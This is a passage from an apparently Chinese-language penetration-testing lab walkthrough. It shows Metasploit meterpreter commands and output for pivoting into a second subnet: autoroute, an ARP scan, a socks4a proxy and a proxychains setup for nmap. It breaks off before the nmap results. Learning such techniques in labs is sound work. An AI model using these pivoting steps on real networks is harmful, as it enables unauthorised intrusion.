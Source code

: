 </pre>

<p nodeIndex="79"><strong nodeIndex="236"><span nodeIndex="237">0x02 Step2</span></strong></p>

<hr nodeIndex="238"><p nodeIndex="81"><span nodeIndex="239">发现RD有两块网卡后,想办法渗透另一个网段7.7.7.0,首先要添加路由[不添加路由也可以直接用meterpreter shell中的模块访问 到7.7.7.x网段,添加路由的目的是为了使得msf模块可以访问到7.7.7.x网段],meterpreter shell可以访问到7.7.7.x网段,msf 中的模块不能访问到7.7.7.x网段,msf中的模块所处的ip是攻击者的ip,meterpreter shell所处的ip是RD的ip.在meterpreter中 添加路由的目的是为了给msf模块作代理,也即给Attacker作代理,但是只能给Attacker的msf模块作代理,要想给Attacker的其他 应用程序作代理,则需要在meterpreter添加路由后再运行msf的开启sock4的模块,然后再用proxychains来设置Attacker的其他 应用程序的代理为msf的开启sock4代理模块中设置的代理入口。</span>   <br nodeIndex="240"></p>
<p nodeIndex="82"><span nodeIndex="241">操作如下:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="83">
meterpreter > run autoroute -s 7.7.7.0/24[*] Adding a route to 7.7.7.0/255.255.255.0...
[+] Added route to 7.7.7.0/255.255.255.0 via 172.16.0.11[*] Use the -p option to list all active routes
meterpreter > run autoroute -p
Active Routing Table
====================
 Subnet Netmask Gateway
 ------ ------- ------- 7.7.7.0 255.255.255.0 Session 2meterpreter >
</pre>
<p nodeIndex="84"><span nodeIndex="242">然后开始扫描7.7.7.0网段,操作如下:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="85">
meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24[*] Running module against DISCORDIA
[*] ARP Scanning 7.7.7.0/24[*]     IP: 7.7.7.11 MAC 08:00:27:7f:3c:fe (CADMUS COMPUTER SYSTEMS)
[*]     IP  7.7.7.12 MAC 08:00:27:3a:b2:c1 (CADMUS CIMPUTER SYSTEMS)
[*]     IP: 7.7.7.20 MAC 08:00:27:fa:a0:c5 (CADMUS COMPUTER SYSTEMS)
[*]     IP: 7.7.7.255 MAC 08:00:27:3f:2a:b5 (CADMUS COMPUTER SYSTEMS)
meterpreter >
</pre>
<p nodeIndex="86"><span nodeIndex="243">arp_scanner不太够用,不能扫到端口信息[此时也可用msf自带的其他可以扫描端口的模块如auxiliary/scanner/portscan/tcp来扫 描,因为前面添加了路由,使得msf中的模块可以用meterpreter作为代理访问到7.7.7.x网段],于是用Attacker本机的nmap来扫[可以 更完全的扫描,nmap应该比msf中的扫描模块强大],首先在RD上开sockets4代理,然后用proxychains设置nmap的代理为msf模块开 启的Attacker的1080端口提供的代理,操作如下:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="87">
meterpreter > background 
[*] Backgrounding session 2...
msf > use auxiliary/server/socks4a 
msf auxiliary(socks4a) > show options 
Module options (auxiliary/server/socks4a):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  1080             yes       The port to listen on.
Auxiliary action:
   Name   Description
   ----   -----------
   Proxy  
msf auxiliary(socks4a) > set srvhost 172.16.0.20
srvhost => 172.16.0.20msf auxiliary(socks4a) > run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
msf auxiliary(socks4a) > netstat -antp | grep 1080
[*] exec: netstat -antp | grep 1080
tcp        0      172.16.0.20:1080            0.0.0.0:*               LISTEN      3626/ruby       
msf auxiliary(socks4a) >
</pre>
<p nodeIndex="88"><span nodeIndex="244">proxychains设置/etc/proxychains.conf如下:</span></p>
<pre class="brush:bash;toolbar:false" nodeIndex="89">
[ProxyList]# add proxy here ...# meanwile# defaults set to "tor"#socks4  127.0.0.1 9050socks4  172.16.0.20 1080
</pre>
<p nodeIndex="90"><span nodeIndex="245">nmap扫描如下:</span></p>